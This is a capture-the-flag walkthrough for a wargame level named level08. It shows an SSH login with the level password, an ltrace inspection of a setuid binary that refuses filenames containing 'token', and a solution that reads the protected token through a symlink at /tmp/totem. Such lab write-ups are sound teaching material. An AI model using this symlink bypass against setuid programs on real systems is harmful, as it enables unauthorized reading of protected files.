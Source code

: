 # 08

Login

```b
> ssh level08@$(ifconfig|grep 'inet '|awk 'NR==2 {print $2}') -p 4242
> Password: fiumuikeil55xe9cu4dood66h
> ls -l
-rwsr-s---+ 1 flag08 level08 8617 level08
-rw-------  1 flag08 flag08    26 token
```

2 files:

```b
> cat token
cat: token: Permission denied

> ./level08
./level08 [file to read]
```

Tryout

```b
# run it

> echo "a" > /tmp/tmp && ./level08 /tmp/tmp
a
> echo "aB" > /tmp/tmp && ./level08 /tmp/tmp
aB

# ltrace

> ltrace ./level08 /tmp
__libc_start_main(0x8048554, 2, 0xbffff7e4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("/tmp", "token")                                    = NULL
^^^^^^          ^^^^^ 🟡
open("/tmp", 0, 014435162522)                              = -1
err(1, 0x80487b2, 0xbffff90a, 0xb7fe765d, 0xb7e3ebaflevel08: Unable to open /tmp: Permission denied
 <unfinished ...>
+++ exited (status 1) +++

> ltrace ./level08 /tmp/tmp
__libc_start_main(0x8048554, 2, 0xbffff7d4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("/tmp/tmp", "token")                                = NULL
^^^^^^              ^^^^^ 🟡
open("/tmp/tmp", 0, 014435162522)                          = 3
read(3, "aB\n", 1024)                                      = 3
write(1, "aB\n", 3aB
)                                        = 3
+++ exited (status 3) +++
```

Observation:

- it reads file contents, as long as the filename contains no substr "token" 
- renaming `./token` is not allowed
- but we can make a symlink of it
  - syntax: `ln -s real_path_src real_path_symlink`

Solution

```b
> ln -s `realpath token` /tmp/totem
> ./level08 /tmp/totem
```
